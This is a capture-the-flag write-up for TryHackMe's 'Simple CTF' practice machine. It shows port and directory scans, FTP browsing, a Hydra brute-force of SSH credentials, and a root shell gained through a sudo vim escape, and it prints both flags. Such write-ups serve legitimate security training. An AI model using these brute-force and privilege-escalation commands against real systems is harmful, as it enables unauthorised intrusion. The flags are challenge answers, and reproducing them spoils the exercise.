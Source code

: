 # Simple CTF

```bash
export IP=10.10.121.109
```

## Scans

### Nmap

Initial Nmap Scan:
```bash
nmap -sC -sv -oN scans/nmap.initial $IP
```

Open Ports Found:
```
21 -- ftp
80 -- webpage
2222 -- ssh
```

OS -- Apache 2 Ubuntu, Linux

### Gobuster

```
gobuster dir -w /path/to/wordlist.txt -u http://$IP
```

Directories found:
```
/simple
/server-status -- 403 Forbidden
```

found name `mike` in robots.txt


## FTP

looking around in FTP:
```
ftp> nlist
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get
(remote-file) ForMitch.txt
(local-file) ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (593.8072 kB/s)
```

found name `mitch` in `ForMitch.txt`


## Hydra

Bruteforcing username `mitch` with `rockyou.txt` passwordlist on SSH port 2222

```bash
hydra -l mitch -P wordlists/rockyou.txt ssh://$IP:2222
```

found credentials: `mitch:secret`


## SSH into Machine
```bash
ssh mitch@$IP -p 2222
```

```bash
ls
cat user.txt
```

**User Flag Found**: `G00d j0b, keep up!`

new user `sunbath` found in `/home/`

PrivEsc by:
```bash
sudo -l
```

and searching vim on [gtfoBins](https://gtfobins.github.io/gtfobins/vim/)

```bash
sudo vim -c ':!/bin/sh'
```

```
whoami
cd /root/
cat root.txt
```

**Root flag found**: `W3ll d0n3. You made it!`


----
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
